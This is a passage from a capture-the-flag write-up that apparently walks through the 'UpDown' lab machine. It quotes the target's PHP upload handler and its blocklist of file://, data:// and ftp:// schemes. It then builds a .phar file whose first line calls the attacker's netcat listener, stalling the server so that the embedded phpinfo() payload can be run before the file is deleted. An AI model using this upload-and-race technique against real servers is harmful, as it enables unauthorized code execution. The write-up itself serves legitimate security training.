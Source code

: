 After, it gets the file content using `file_get_contents()`, then it calls `isitup()` for each line.  
When it is done processing the file it deletes it using `@unlink()`.

```php
# Read the uploaded file.
$websites = explode("\n",file_get_contents($final_path));
foreach($websites as $site){
        $site=trim($site);
        if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
                $check=isitup($site);
                if($check){
                        echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
                }else{
                        echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
                }
        }else{
                echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
        }
}
# Delete the uploaded file.
@unlink($final_path);
```

### Testing File upload

We created a file `00.phar`:

```php
http://10.10.14.95:9000/
<?php phpinfo(); ?>
```

The first line is used to prevent the deletion of our uploaded file before executing it.  
When the server sends a request to our nc server using the funcion `isitup()`, it will wait for a response which will never arrive,
we can use this time to browse to our uploaded file `http://dev.siteisup.htb/uploads/<md5(time)>/00.phar` to execute it.

> note: http://dev.site.htb/uploads/ is listable.

We setup a listener on port `9000`

![](/assets/updown/nc-9000.png)

Then we uploaded `00.phar`
